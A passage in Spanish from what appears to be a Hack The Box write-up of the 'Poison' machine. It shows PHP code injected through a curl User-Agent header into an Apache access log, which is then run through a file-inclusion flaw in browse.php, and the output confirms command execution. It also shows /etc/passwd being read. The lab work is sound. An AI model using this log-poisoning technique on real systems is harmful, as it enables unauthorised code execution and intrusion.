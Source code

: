 - Vemos que podemos ver el archivo.

<p align="center">
<img src="/assets/hackthebox/img/machines/medium/poison/4.png">
</p>

- Como la web interpreta `PHP` lo que podemos hacer es mediante el `User-Agent` inyectar código `PHP` para ver si lo interpreta esto lo que va hacer es como vamos a hacerlo mediante `curl` por `GET` se va a guardar el el `access.log` y hay podremos ver si en este caso funciono.

```bash
❯ curl -s -X -GET "http://10.10.10.84/test" -H "User-Agent: <?php system('id'); ?>"
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>501 Not Implemented</title>
</head><body>
<h1>Not Implemented</h1>
<p>-GET to /test not supported.<br />
</p>
</body></html>
```

- Y vemos que como tal fue interpretado.

```bash
❯ curl -s -X -GET 'http://10.10.10.84/browse.php?file=/var/log/httpd-access.log' | tail -n 10
10.10.14.17 - - [08/Sep/2024:20:02:11 +0200] "GET /favicon.ico HTTP/1.1" 404 209 "http://10.10.10.84/" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36"
10.10.14.17 - - [08/Sep/2024:20:02:30 +0200] "-" 408 - "-" "-"
10.10.14.17 - - [08/Sep/2024:20:06:50 +0200] "GET /browse.php?file= HTTP/1.1" 200 321 "http://10.10.10.84/" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36"
10.10.14.17 - - [08/Sep/2024:20:07:10 +0200] "-" 408 - "-" "-"
10.10.14.17 - - [08/Sep/2024:20:09:38 +0200] "GET /browse.php?file=/etc/passwd HTTP/1.1" 200 1894 "-" "curl/8.8.0"
10.10.14.17 - - [08/Sep/2024:20:12:58 +0200] "GET /browse.php?file=/var/log HTTP/1.1" 200 368 "-" "curl/8.8.0"
10.10.14.17 - - [08/Sep/2024:20:18:28 +0200] "GET /browse.php?file=/var/log/httpd-access.log HTTP/1.1" 200 381807 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36"
10.10.14.17 - - [08/Sep/2024:20:18:48 +0200] "-" 408 - "-" "-"
10.10.14.17 - - [08/Sep/2024:20:22:19 +0200] "-GET /test HTTP/1.1" 501 196 "-" "uid=80(www) gid=80(www) groups=80(www)
```
